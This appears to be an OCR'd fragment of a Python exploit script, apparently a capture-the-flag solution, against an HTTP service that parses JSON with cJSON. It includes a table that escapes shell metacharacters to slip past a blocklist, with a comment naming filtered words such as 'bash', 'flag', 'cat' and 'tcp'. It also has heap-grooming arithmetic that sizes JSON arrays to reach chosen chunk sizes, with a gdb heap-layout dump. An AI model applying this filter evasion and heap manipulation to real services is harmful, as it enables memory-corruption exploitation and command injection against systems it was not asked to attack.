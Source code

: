 ```bash
    b"$": b"\\u0024",
    b"|": b"\\u007c",
    b"`": b"\\u0060",
    b"&": b"\\u0026",
    b"#": b"\\u0023",
    b"(": b"\\u0028",
    b")": b"\\u0029",

    b"\x00": b"\\u0000",
    # bash, flag, cat, tcp
}



def get_raw_payload(payload):
    # breakpoint()
    raw_payload = b""
    for i in payload:
        c = chr(i).encode("latin")
        if c in blacklist_dict:
            raw_payload += blacklist_dict[c]

        else:
            raw_payload += c

    return raw_payload

def calc_array_pair_cnt(required_size, message_len):
    align_up_0x10 = lambda x: (x + 0x0f) & ~0xf
    remain_chunk_length = lambda x: (x & 0x0f) // (8 + 1) * 0x10

    string_len = lambda n: 2 * n + message_len # 1,1,
    calc = lambda n: 0x50 * n + align_up_0x10(string_len(n)) + remain_chunk_length(string_len(n))

    for i in range(0, 0x1000):
        size = calc(i)
        if size < required_size:
            continue
        elif size == required_size:
            return (i, 0, 0)
        else:
            # breakpoint()
            return (i - 1, -1, calc(i - 1))
    else:
        raise Exception("required size too big")



def generate_array_payload(required_size, message_len):
    '''
    gdb-peda$ parseheap
    addr      ... size ...
    0x1cf0000 ... 0x?? ...    strlen(http_message) // 
    0x1cf0090 ... 0x50 ...    cJSON_Object root     
    0x1cf00e0 ... 0x50 ...    cJSON_String data string
    0x1cf0130 ... 0x20 ...    strlen("data")
    0x1cf0150 ... 0x60 ...    strlen(data string)
    0x1cf01b0 ... 0x50 ...    cJSON_String  timestamp
    0x1cf0200 ... 0x20 ...    strlen("timestamp")
    0x1cf0220 ... 0x50 ...    cJSON_Array timestamp
    0x1cf0270 ... 0x20 ...    strlen("timestamp")
    '''
    # breakpoint()
```